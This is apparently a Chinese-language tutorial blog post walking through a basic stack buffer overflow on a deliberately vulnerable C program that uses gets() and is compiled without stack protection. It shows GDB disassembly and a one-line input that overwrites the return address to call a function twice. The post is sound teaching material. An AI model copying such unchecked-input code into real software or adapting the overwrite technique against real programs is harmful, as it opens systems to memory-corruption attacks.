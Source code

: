 ```yaml
---
layout: post
title:  "Stack Over Flow 初探"
date:   2016-01-09 19:53:44
author: sunrainchy
categories: ShellCode
image: http://site-img-data.img-cn-shanghai.aliyuncs.com/blog-data/2015.12.12/nginx.jpg
---
```

从一次实践来了解什么是StackOverFlow，从一段简单的C语言代码入手。
cat exploit.c 
void fun_1(void) 
{ 
    printf("This is fun 1\n"); 
    char buffer[10]; 
    gets(buffer); 
} 
int main() 
{ 
    fun_1(); 
}
保存为：exploit.c
cc -mpreferred-stack-boundary=2 -ggdb exploit.c -o exploit -fno-stack-protector 
-fno-stack-protector 告诉gcc我们不想一栈溢出保护机制进行编译（如果不加上实验会失败）

编译好了先用GDB看一下：
<div class="post-img">
<img class="img-responsive img-post" src="http://site-img-data.img-cn-shanghai.aliyuncs.com/blog-data/2015.12.12/ngx_top_20151214.png"/>
</div>

执行disassemble 命令，对main函数进行反汇编
<div class="post-img">
<img class="img-responsive img-post" src="http://site-img-data.img-cn-shanghai.aliyuncs.com/blog-data/2015.12.12/ngx_top_20151214.png"/>
</div>

可以看到在调用完成fun_1 函数后下一条指令地址是0x0804482b

再看看fun_1 的反汇编结果
disassemble fun_1

<div class="post-img">
<img class="img-responsive img-post" src="http://site-img-data.img-cn-shanghai.aliyuncs.com/blog-data/2015.12.12/ngx_top_20151214.png"/>
</div>

分析下这段汇编代码：
Dump of assembler code for function fun_1: 
   0x08048404 <+0>: push   %ebp                                    // 基栈寄存器入站，保存
   0x08048405 <+1>: mov    %esp,%ebp                          // 用当前栈顶作为基栈地址
   0x08048407 <+3>: sub    $0x10,%esp                           // 给char buffer[10]; 在栈上分配地址，注意这里分配了16个字节，注意Linux平台栈是从高地址向低地址延伸的
   0x0804840a <+6>: movl   $0x8048500,(%esp)              
   0x08048411 <+13>:    call   0x8048320 <puts@plt>   // 调用printf 输出
   0x08048416 <+18>:    lea    -0xa(%ebp),%eax            // 找到正确的位置进行串的输入
   0x08048419 <+21>:    mov    %eax,(%esp) 
   0x0804841c <+24>:    call   0x8048310 <gets@plt>    //调用gets 输入
   0x08048421 <+29>:    leave  
   0x08048422 <+30>:    ret    


在这里我们可以设置两个断点，看看此函数返回main 函数下一条指令地址是不是0x0804482b：
(gdb) break *0x08048422 
Breakpoint 1 at 0x8048422: file exploit.c, line 7. 

在最后ret 指令出停止

<div class="post-img">
<img class="img-responsive img-post" src="http://site-img-data.img-cn-shanghai.aliyuncs.com/blog-data/2015.12.12/ngx_top_20151214.png"/>
</div>

看第一行，找到0x0804482b了吧

下面通过栈溢出篡改函数返回执行地址，我们可以看到此函数返回执行地址是 0x0804482b
让我们让程序再调用一次fun_1 函数：
从 disassemble main 可以看到调用fun_1 的时候是这个地址 0x08048426
那我们就将函数返回执行地址篡改成这个：

printf "AAABBBCCCDDDDD\x26\x84\x04\x08" | ./exploit
This is fun 1 
This is fun 1 

输出两个 ”This is fun 1 ” 演示成功

为啥是14个字符后接地址而不是10个呢，原因是基栈寄存器入栈了0x08048404 <+0>:  push   %ebp 
，要将这四个也算上。



